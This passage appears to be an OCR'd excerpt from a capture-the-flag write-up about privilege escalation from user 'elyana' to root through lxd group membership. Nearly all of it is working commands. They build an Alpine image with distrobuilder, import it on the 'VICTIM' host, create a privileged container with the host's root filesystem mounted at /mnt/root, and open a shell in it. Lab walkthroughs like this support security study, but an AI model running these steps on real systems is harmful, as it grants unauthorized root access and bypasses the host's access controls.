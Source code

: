 #### PRIVILEGE ESCALATION - via lxd group (ROUND TWO) `elyana -> root`

```
sudo su

#Install requirements
sudo apt update
sudo apt install -y git golang-go debootstrap rsync gpg squashfs-tools

#Clone repo
git clone https://github.com/lxc/distrobuilder

#Make distrobuilder
cd distrobuilder

make

#Prepare the creation of alpine
mkdir -p $HOME/ContainerImages/alpine/
cd $HOME/ContainerImages/alpine/
wget https://raw.githubusercontent.com/lxc/lxc-ci/master/images/alpine.yaml

#Create the container
sudo $HOME/go/bin/distrobuilder build-lxd alpine.yaml -o image.release=3.18
```

- Then, transfer the image to the vulnerable server.

**VICTIM

```
#add the image
lxc image import lxd.tar.xz rootfs.squashfs --alias alpine
lxc image list #You can see your new imported image
```

```
lxc init alpine privesc -c security.privileged=true
lxc list #List containers

lxc config device add privesc host-root disk source=/ path=/mnt/root recursive=true
```

`Error: No storage pool found. Please create a new storage pool` -> 
Run **`lxd init`** and **repeat** the previous chunk of commands.

```
lxc start privesc
lxc exec privesc /bin/sh

cd /mnt/root
```

_____
